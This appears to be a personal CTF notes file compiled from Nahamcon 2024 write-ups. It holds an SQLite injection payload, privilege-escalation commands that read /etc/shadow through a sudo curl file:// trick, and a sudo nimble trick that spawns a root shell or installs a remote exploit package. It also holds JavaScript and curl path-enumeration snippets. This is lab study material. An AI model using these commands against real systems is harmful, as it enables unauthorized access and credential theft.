 # This is a file i'll include things i didn't know and or find after reading some write-ups

## apps

```https://play.google.com/store/apps/details?id=com.arara.q```

## sql injections

- ```' || (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'))--```

## Privilege Escalation

### ```cat .bash_history```

This might show what someone has already done.
Maybe shows passwords from sshpass.

### ```cat /etc/passwd | grep sh```

This might show some other users, and we grep to what users have shells.

### ```sudo -l```

shows what sudo accesses a users have

#### Nahamcon-2024/curly_fries challenge

For this challenge we logged in as user:userpass with ssh and found access to the fry users directory, including its history file, and found the fry user's password, making us able to switch to the fry user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-curlly-fries-sudo-l.png)

This shows the user fry can execute a certain curl command as root without the need for a password.
Using ```sudo curl 127.0.0.1:8000/health-check file:///etc/shadow```.
Then we can crack the hashes of the machine and pawn it.

See ```https://github.com/LazyTitan33/CTF-Writeups/blob/main/Nahamcon-2024/Misc/Curly_Fries.md```

#### Nahamcon-2024/jack_be part 1

For this challenge we logged in as user:userpass with ssh.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be.png)

This shows the user jack can run a use nim run as root without a password.
So we create a nim project, and file that executes commands.

```bash
nimble init .

echo '#main.nim

import osproc

proc main() =
    let command = "/bin/bash"
    let result = execCmd(command)
    echo result

when isMainModule:
    main()'>./src/main.nim

chmod 777 .
nimble build
sudo -u jack /usr/bin/nimble run
```

And where in jack

#### Nahamcon-2024/jack_be part 2

In part 1 we logged in to another user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be2.png)

From here we can continue with ```sudo -l``` and we can see we can use ```sudo nimble install *``` without a password and can continue escalating our privilege with package you made yourself.

```bash
sudo -l
sudo -u root /urs/bin/nimble install https://github.com/ThorD125/nim-exploit-lib
```

See `https://game0v3r.vercel.app/blog/nahamconctf-miscellaneous`

## extra s

Very specific case but still interesting.

### Make Self Extracting Sccript

If there is a file,
Including the hex data of the file to extract,
The following command can be used to write it to a file:
```tail -n 75 self_extractor > result```

### Iframe bruteforcing

```javascript
for (let index=0; index < 15; index++ ) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    document.write(`${index}: ${url}`);
    document.write(`<iframe sandbox style="width: 100%" src="${url}"></iframe>`);
}```

### Fetch Enumerating

```javascript
for (let index = 0; index < 200; index++) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    await fetch(url).then(r => {
        if(r.status!=404) console.log(url);
    });
}
```

### Curl Enumerating

```curl --silent --fail "https://example.com/[0-10]" -o "out/post_#1.txt" -s -w '%{url} %{http_code}\n```
